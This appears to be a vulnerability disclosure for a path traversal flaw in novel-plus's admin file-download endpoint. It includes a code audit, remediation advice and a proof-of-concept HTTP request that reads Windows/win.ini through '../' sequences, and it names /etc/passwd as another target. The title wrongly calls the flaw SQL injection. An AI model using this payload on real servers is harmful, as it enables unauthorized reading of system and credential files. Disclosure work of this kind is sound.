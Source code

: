 ## Vulnerability Submitter

##### Name:  邓俊锋

## SQL injection vulnerability exists in novel-plus v5.1.0

**Vulnerability Impact Scope**

`novel-plus< v5.1.0`

**official website**

 https://novel.xxyopen.com/index.htm

**github**

https://github.com/201206030/novel-plus

### Vulnerability Overview

Directory traversal vulnerability is a common web security flaw that allows attackers to access unauthorized files or directories on a server through specially crafted URL paths. This vulnerability typically arises due to insufficient validation of user input by the web application, enabling attackers to construct specific URL paths to access sensitive files on the server.

### JavaWeb code auditing process

**Source file: **

`novel-admin\src\main\java\com\java2nb\common\controller\FileController.java,lines179-197.`

![image-20250402224625364](./img/1.png)This code has a path traversal vulnerability for the following reasons:

1. **Unvalidated user-controllable parameter**:
- The `filePath` parameter is user-controlled, and the code does not perform any validation or filtering on it.
- An attacker can craft malicious `filePath` values (e.g., `../../etc/passwd`) to access sensitive files on the server, potentially leading to unauthorized data exposure.
2. **Path concatenation issue**:
- The code directly concatenates the user-input `filePath` with the upload path:
```java
String realFilePath = jnConfig.getUploadPath() + filePath;
```
- If `filePath` contains path traversal characters (e.g., `../`), it can bypass the intended upload directory restrictions and access arbitrary directories on the server.
3. **No restrictions on file access scope**:

- The code lacks restrictions on file access scope, allowing an attacker to exploit the path traversal vulnerability and access arbitrary files on the server.

### Vulnerability reproduction

**Vulnerability Route:** `/common/sysFile/download`

**Vulnerable Parameter:** `filePath`

1. Log in using the admin account to obtain the session cookie (which grants administrator privileges)

![image-20250219195734596](./img/2.png)

2.Subsequent testing demonstrates that a directory traversal attack successfully retrieved sensitive data from the `Windows/win.in` file.

![](./img/3.png)

**POC**

```HTTP
GET /common/sysFile/download?filePath=../../../../Windows/win.ini&fileName=test.txt HTTP/1.1 
Host: 192.168.200.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.200.1/main
Cookie: JSESSIONID=a3d5047e-3a4f-4454-8ba1-00053268b01a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
```

### **Vulnerability Remediation Recommendations**

1. **Strictly Validate User Input:**

   Conduct legitimacy checks on user-provided file names and path parameters. Filter out path traversal sequences such as ../, ..\, and URL-encoded forms (e.g., %2e%2e%2f).

2. **Use a whitelist mechanism:** 

   allow only specific character sets (such as letters, numbers, underscores) or file extensions (such as .jpg, .pdf).